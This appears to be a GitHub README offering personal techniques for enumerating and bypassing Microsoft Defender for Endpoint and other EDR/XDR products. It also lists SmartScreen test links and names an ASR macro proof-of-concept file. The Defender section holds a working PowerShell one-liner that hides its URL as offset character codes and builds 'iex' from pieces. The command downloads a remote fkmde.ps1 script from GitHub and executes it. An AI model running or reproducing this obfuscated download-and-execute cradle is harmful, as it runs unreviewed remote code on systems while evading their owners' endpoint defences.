

# fkxdr-mindmaps for exploiting and bypassing EDR/XDR


This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  


## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```

### ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.


* PoC_AsrOfficeMacroWin32ApiCalls.docm
  
### Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html


